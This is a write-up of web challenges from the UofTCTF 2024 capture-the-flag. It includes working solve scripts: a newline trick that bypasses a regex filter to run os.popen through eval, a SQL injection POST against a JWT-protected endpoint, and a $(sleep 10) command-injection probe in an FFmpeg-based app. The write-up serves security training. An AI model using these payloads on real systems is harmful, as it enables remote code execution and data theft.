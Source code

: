 ```yaml
---
title: "U of T CTF"
date: 2024-01-14 00:08:00 +0800
categories: [Jeopardy-CTF]
tags: [web, ctf, sqli, ssti, python, idor, cmd-injection]
image:
  path: /banners/uoftctf.png
---
```


> Description : he University of Toronto is hosting its second inaugural Capture the Flag competition. It will be jeopardy-style, held online with categories such as Web, Pwn, Rev, Crypto, Misc, and more! There will be plenty of challenges for both beginner and experienced players. The team size is limited to 4 players per team. This competition is organized by UofTCTF, GDSC (UTM), and MCSS (UTM) and sponsored by AON, UofT Department of Computer Science, UofT Information Security and Enterprise Architecture, LetsDefend.io
{: .prompt-info }




| Name       | uoftctf                |
|------------|------------------------|
| URL        | [UofTCTF](https://play.uoftctf.org/), [Ctf-Time](https://ctftime.org/event/2219) |
| Category   | Web                    |
| Discord    | [https://discord.com/invite/VAwyzVUt?utm_source=Discord%20Widget&utm_medium=Connect](https://discord.com/invite/VAwyzVUt?utm_source=Discord%20Widget&utm_medium=Connect) |



## 1. Voice Changer - OS Injection

This website uses FFmpeg to generate an OGG file. In this challenge, an OS injection vulnerability exists in the FFmpeg command.

![OS Injection Image](https://github.com/ACHUX21/Writeups/assets/130113878/322e6697-62b4-4cd8-98a5-86d031085db1)

Let's attempt to induce a delay in the command using `$(sleep 10)`.

![Sleep Command Image](https://github.com/ACHUX21/Writeups/assets/130113878/f7cdcc2c-f1d7-4bb5-aa2c-2ccb9d20d107)

The image reveals a 10-second delay resulting from the execution of the sleep command.

### Solution

To exploit this vulnerability, our approach involves redirecting the flag to our webhook site:

![Webhook Image 1](https://github.com/ACHUX21/Writeups/assets/130113878/cb206e1e-dde5-4c64-8164-0c299ddf5788)

```bash
❯ echo 'dW9mdGN0ZntZMFVSIFBpdGNoIElTIDcwTyBIITlIfQ==' |base64 -d
uoftctf{Y0UR Pitch IS 70O H!9H}%  
```

## 2. The Varsity 

### Solution:
To address the issue, generate a valid (JWT) and proceed by sending a POST request to article number 9 with this json {"issue":"9'"}

```python
import requests

url = "https://uoftctf-the-varsity.chals.io:443/register"
json={"username": "achuxer"}
reg = requests.post(url, json=json)

valid_jwt = reg.headers["Set-Cookie"].split("=")[1].split(";")[0]

session = requests.session()

_url = "https://uoftctf-the-varsity.chals.io:443/article"
_cookies = {"token": valid_jwt}
_json={"issue": "9'"}
flag = session.post(_url, cookies=_cookies, json=_json)

print(flag.json()["content"])
```

## 3. No Code - Eval

### Source
```python
from flask import Flask, request, jsonify
import re

app = Flask(__name__)

@app.route('/execute', methods=['POST'])
def execute_code():
    code = request.form.get('code', '')
    if re.match(".*[\x20-\x7E]+.*", code):
        return jsonify({"output": "jk lmao no code"}), 403
    result = ""
    try:
        result = eval(code)
    except Exception as e:
        result = str(e)

    return jsonify({"output": result}), 200

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=1337, debug=False)
```
### Solution

Sending \n in the start of your payload cz re.match() will only match at the beginning of the string and not at the beginning of each line.

```python
#!/usr/bin/env python3
import requests
import string,sys
url = 'https://uoftctf-no-code.chals.io/execute'

payload = "\n__import__('os').popen('cat flag.txt').read()"

data = {
    'code': payload
}
response = requests.post(url, data=data)
print(response.text)
```


## 4. Guestbook - Hidden Flag

### Solution

By reading the html source you can see POST action directed towards a Google Spreadsheet with the parameter "sheetID"

![image](https://github.com/ACHUX21/Writeups/assets/130113878/e5c48610-12d1-4f6f-9dbc-66d4a693d78a)

After googling around,with this id you can obtain spreadsheet docs.

https://docs.google.com/spreadsheets/d/1PGFh37vMWFrdOnIoItnxiGAkIqSxlJDiDyklp9OVtoQ/edit

Following this step, you can notice two hidden rows. Once I copied the doc, I had access to the flag

## 5.  My First App - JWT / SSTI
### Solution
  Initially, you must crack a JWT to reveal the jwt_key. Furthermore, there's an SSTI in the username field from the JWT-cookie, but with certain blacklisted characters/words.
  
  ![image](https://github.com/ACHUX21/Writeups/assets/130113878/ebca8511-d882-427b-aba0-65607fcbb5cd)

  
  PY:

![image](https://github.com/ACHUX21/Writeups/assets/130113878/0fe38719-200d-42f3-9ea6-93ac24841d1e)


For The Code : 
    [Github](https://github.com/ACHUX21/Writeups/blob/main/2024/UofTCTF/solve.py)
